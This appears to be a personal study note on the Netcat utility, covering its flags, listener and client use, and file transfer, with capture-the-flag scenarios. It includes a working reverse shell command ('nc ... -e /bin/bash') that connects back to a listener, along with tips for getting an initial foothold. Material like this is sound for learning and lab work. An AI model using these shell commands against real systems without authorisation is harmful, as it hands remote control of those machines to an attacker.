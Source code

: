 #### Official Documentation: [https://netcat.sourceforge.net/](https://netcat.sourceforge.net/)
#### Cheat Sheet: [[Kali Tools#Netcat|Netcat Commands]]
## Purpose
Netcat (nc) is a networking utility for reading/writing data across TCP/UDP. It’s called the “Swiss Army Knife” of networking because it supports port scanning, file transfer, and reverse/bind shells.

## Scenarios
- CTF: Spawn a reverse shell from a vulnerable machine to your listener.  
- Real world: Debug network services, test connectivity, or set up a quick data transfer channel.

## All needed info to run
- Syntax: `nc [options] host port`.  
- Common flags:
  - `-l` → listen mode  
  - `-p <port>` → specify port  
  - `-v` → verbose  
  - `-n` → numeric IPs only  
  - `-u` → UDP mode  
  - `-e <program>` → execute program after connection (disabled in some builds; use traditional netcat or Ncat)  
- Works as listener or client.  
- Supports piping and redirection.

## Example commands & outputs
```bash
# Listener (server)
$ nc -lvnp 4444
listening on [any] 4444 ...

# Connect to listener
$ nc 192.168.56.1 4444
# Connection established, data typed on one side appears on the other

# Reverse shell (target side)
$ nc 192.168.56.1 4444 -e /bin/bash

# File transfer
# Sender
$ nc -l -p 1234 < file.txt
# Receiver
$ nc 192.168.56.1 1234 > file.txt
```

!!! note "Netcat Basics"
	- `-e` for shells may be disabled; use `/bin/bash <&3 >&3` tricks or Socat instead.
	- Always specify `-v` for clarity in CTFs.
	- Use piping (`|`) and redirection for quick file transfers.
	- Treat Netcat shells as unstable — use for initial foothold, then upgrade.


### [[Kali Tools#Netcat|Netcat Commands]]
